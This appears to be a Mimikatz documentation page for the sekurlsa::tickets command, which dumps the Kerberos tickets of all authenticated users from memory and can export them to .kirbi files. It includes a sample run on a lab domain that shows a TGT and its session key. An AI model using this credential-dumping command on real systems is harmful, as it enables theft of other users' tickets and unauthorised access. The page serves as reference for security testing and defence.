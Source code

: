 # tickets

It lists Kerberos tickets belonging to all authenticated users on the target server/workstation. Unlike [`kerberos::list`](../process/list.md), sekurlsa uses memory reading and is not subject to key export restrictions. Sekurlsa can also access tickets of others sessions (users). It has the following command line argument:

* `/export`: tickets are exported in `.kirbi` files. They start with user's LUID and group number (0 = TGS, 1 = client ticket(?) and 2 = TGT). The tickets are saved in the current directory.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 697146 (00000000:000aa33a)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:22:01 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427

         * Username : MediaAdmin$
         * Domain   : HACKLAB.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 10/17/2021 4:22:01 AM ; 10/17/2021 2:22:01 PM ; 10/24/2021 4:22:01 AM
           Service Name (02) : krbtgt ; HACKLAB.LOCAL ; @ HACKLAB.LOCAL
           Target Name  (02) : krbtgt ; hacklab.local ; @ HACKLAB.LOCAL
           Client Name  (01) : MediaAdmin$ ; @ HACKLAB.LOCAL ( hacklab.local )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             1351322f734539c08a78792f642fc4fd4ff8aea1fe3b4a0edf83778b5ed878e9
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
```
